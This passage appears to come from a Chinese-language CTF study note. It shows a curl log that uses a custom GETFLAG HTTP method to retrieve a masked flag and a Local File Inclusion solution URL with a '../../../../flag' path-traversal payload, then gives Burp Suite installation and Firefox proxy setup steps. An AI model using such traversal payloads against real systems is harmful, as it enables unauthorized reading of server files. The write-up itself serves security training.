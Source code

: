 ```
*   Trying 140.110.112.31...
* Connected to 140.110.112.31 (140.110.112.31) port 3001 (#0)
> GETFLAG /index.php HTTP/1.1
> Host: 140.110.112.31:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 20 May 2018 07:19:34 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 33
< Content-Type: text/html
< 
* Connection #0 to host 140.110.112.31 left intact
BreakALLCTF{***********************}
```

# web-5:Local File Inclusion 80

http://140.110.112.31:2003/index.php?page=../../../../flag


## C.web debugging proxy之burp suite(ZAP,fiddler)

>* https://en.wikipedia.org/wiki/Burp_suite
>* kali linux 2018.1已經安裝burp suite free edition
>* Ubuntu linux 16.04 LTS 64-bit預設沒有安裝==>需自行安裝
>* https://portswigger.net/burp/communitydownload
```
下載burpsuite_community_linux_v1_7_33.sh

chmod +x burpsuite_community_linux_v1_7_33.sh

執行安裝==> ./burpsuite_community_linux_v1_7_33.sh
```

>* 設定瀏覽器==>使用Ubuntu 16.04預建的Mozilla/firefox
>* 參看圖片的設定畫面
```
Connection settings to use a proxy can be set in Firefox Preferences as follows:

    Click the menu button and choose Preferences. about:preferences ==>
    In the General panel, go to the Network Proxy section.
    Click Settings…. The Connection Settings dialog will open.

>* No proxy: Choose this if you don't want to use a proxy.
>* Auto-detect proxy settings for this network: Choose this if you want Firefox to automatically detect the proxy settings for your network.
>* Use system proxy settings: Choose this if you want to use the proxy settings configured for your operating system.
>* Manual proxy configuration: Choose this if you have a list of one or more proxy servers. Ask your system administrator for the configuration information. Each proxy requires a hostname and a port number.
        If the same proxy name and port number are used for all protocols, check Use this proxy server for all protocols.
>* No Proxy For: List of hostnames or IP addresses that will not be proxied. Use <local> to bypass proxying for all hostnames which do not contain periods. 
>* Automatic proxy configuration URL: Choose this if you have a proxy configuration (.pac) file. Enter the URL and click okay to save changes and load the proxy configuration.
>* Reload: The reload button will load the currently available proxy configuration. 
```
